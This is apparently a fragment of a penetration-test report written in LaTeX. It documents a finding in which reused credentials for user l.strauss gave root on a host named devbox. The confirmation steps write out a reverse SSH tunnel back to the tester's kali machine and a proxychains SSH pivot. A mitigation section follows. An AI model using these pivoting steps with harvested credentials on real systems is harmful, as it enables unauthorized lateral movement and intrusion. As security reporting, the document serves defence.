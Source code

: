 \documentclass[notitlepage]{article}
\begin{document}
	\subsubsection*{Severity Rating}
    Medium Severity:  \\
	\cvss(L,L,H,R,U,H,H,L,6.1)
		
  	\subsubsection*{Vulnerability Description}
    Root access to any of the host servers will allow the attacker to potentially shut down services and gain access to other sensitive information. A way into
    devbox was found using previously found credentials from user l.strauss.

  	\subsubsection*{Confirmation method}
    To gain access to devbox, you must first sign in as admin user pr0b3 on costumes and then ssh back to kali as follows.
 \begin{verbatim}
ssh -R 1081 kali@172.24.0.10
  \end{verbatim}
    Once the connection is established, from kali we can run the following command
\begin{verbatim}
proxychains ssh l.strauss@devbox.artstailor.com
password: Co...El
\end{verbatim}
    The real password is concealed, however this allowed us to gain root access to devbox.

	\subsubsection*{Mitigation or Resolution Strategy}
    The best mitigation for this would be to have l.strauss change his credentials and avoid storing all passwords in plaintext at all costs. Easily discoverable passwords
    led to this attack to begin with.

    \subsection{Finding: \emph{Credential Access to Secret Page}}
  
	\subsubsection*{Severity Rating}	    
    Medium Severity: \\
    \cvss(A,H,L,N,U,H,L,N,5.4)
		
\end{document}
